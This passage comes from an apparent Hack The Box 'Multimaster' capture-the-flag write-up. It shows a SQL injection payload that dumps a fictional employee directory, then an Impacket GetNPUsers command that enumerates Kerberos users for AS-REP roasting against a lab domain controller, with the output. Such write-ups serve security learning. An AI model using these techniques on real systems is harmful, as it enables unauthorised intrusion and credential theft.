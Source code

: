 This is the unicode escaped equivilent of `a' or 1=1; --` And the response:

```text
HTTP/1.1 200 OK
Cache-Control: no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Mon, 20 Jul 2020 20:34:22 GMT
Connection: close
Content-Length: 1821

[{"id":1,"name":"Sarina Bauer","position":"Junior Developer","email":"sbauer@megacorp.htb","src":"sbauer.jpg"},{"id":2,"name":"Octavia Kent","position":"Senior Consultant","email":"okent@megacorp.htb","src":"okent.jpg"},{"id":3,"name":"Christian Kane","position":"Assistant Manager","email":"ckane@megacorp.htb","src":"ckane.jpg"},{"id":4,"name":"Kimberly Page","position":"Financial Analyst","email":"kpage@megacorp.htb","src":"kpage.jpg"},{"id":5,"name":"Shayna Stafford","position":"HR Manager","email":"shayna@megacorp.htb","src":"shayna.jpg"},{"id":6,"name":"James Houston","position":"QA Lead","email":"james@megacorp.htb","src":"james.jpg"},{"id":7,"name":"Connor York","position":"Web Developer","email":"cyork@megacorp.htb","src":"cyork.jpg"},{"id":8,"name":"Reya Martin","position":"Tech Support","email":"rmartin@megacorp.htb","src":"rmartin.jpg"},{"id":9,"name":"Zac Curtis","position":"Junior Analyst","email":"zac@magacorp.htb","src":"zac.jpg"},{"id":10,"name":"Jorden Mclean","position":"Full-Stack Developer","email":"jorden@megacorp.htb","src":"jorden.jpg"},{"id":11,"name":"Alyx Walters","position":"Automation Engineer","email":"alyx@megacorp.htb","src":"alyx.jpg"},{"id":12,"name":"Ian Lee","position":"Internal Auditor","email":"ilee@megacorp.htb","src":"ilee.jpg"},{"id":13,"name":"Nikola Bourne","position":"Head of Accounts","email":"nbourne@megacorp.htb","src":"nbourne.jpg"},{"id":14,"name":"Zachery Powers","position":"Credit Analyst","email":"zpowers@megacorp.htb","src":"zpowers.jpg"},{"id":15,"name":"Alessandro Dominguez","position":"Senior Web Developer","email":"aldom@megacorp.htb","src":"aldom.jpg"},{"id":16,"name":"MinatoTW","position":"CEO","email":"minato@megacorp.htb","src":"minato.jpg"},{"id":17,"name":"egre55","position":"CEO","email":"egre55@megacorp.htb","src":"egre55.jpg"}]
```

next attempted to enumerate the valid users who have active accounts on this machine through Kerberos.

```text
zweilos@kalimaa:~/htb/multimaster$ python3 /home/zweilos/impacket/examples/GetNPUsers.py -outputfile multimaster.hash -format hashcat -usersfile /home/zweilos/htb/multimaster/users -no-pass -dc-ip 10.10.10.179 MEGACORP/egre55
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User cyork doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zac doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
